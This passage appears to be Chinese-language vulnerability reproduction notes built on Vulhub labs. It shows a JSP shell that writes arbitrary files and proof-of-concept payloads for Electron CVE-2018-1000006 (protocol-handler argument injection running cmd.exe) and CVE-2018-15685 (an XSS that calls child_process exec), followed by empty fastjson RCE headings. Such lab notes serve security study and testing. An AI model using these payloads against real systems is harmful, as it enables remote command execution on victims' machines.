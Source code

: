 该shell的作用是向`wwwroot下的test.jsp文件中写入任意字符串`，如：

```
http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success
```

我们再访问`/wwwroot/test.jsp就能看到success`了：

# **[Electron < v1.8.2-beta.4 远程命令执行漏洞—【CVE-2018-1000006】](https://vulhub.org/#/environments/electron/CVE-2018-1000006/)**


## **[漏洞原理](https://xz.aliyun.com/t/1990)**

基于electron构建的app登记了协议，即可以使用该协议直接打开应用程序。
影响win平台


## **[漏洞复现](https://github.com/vulhub/vulhub/blob/master/electron/CVE-2018-1000006/README.zh-cn.md)**

```
vulhub://?" "--no-sandbox" "--renderer-cmd-prefix=cmd.exe /c start calc
```
```
vulhub://example.com/" "--no-Sandbox" "--gpu-launcher=calc.exe
```

# **[Electron WebPreferences 远程命令执行漏洞（CVE-2018-15685）](https://github.com/vulhub/vulhub/blob/master/electron/CVE-2018-15685/README.zh-cn.md)**

## **漏洞复现**

> 此时，提交POC（`Windows`）：

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">
```

# **[fastjson 反序列化导致任意命令执行漏洞](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/)**

# **[Fastjson 1.2.47 远程命令执行漏洞](https://vulhub.org/#/environments/fastjson/1.2.47-rce/)**
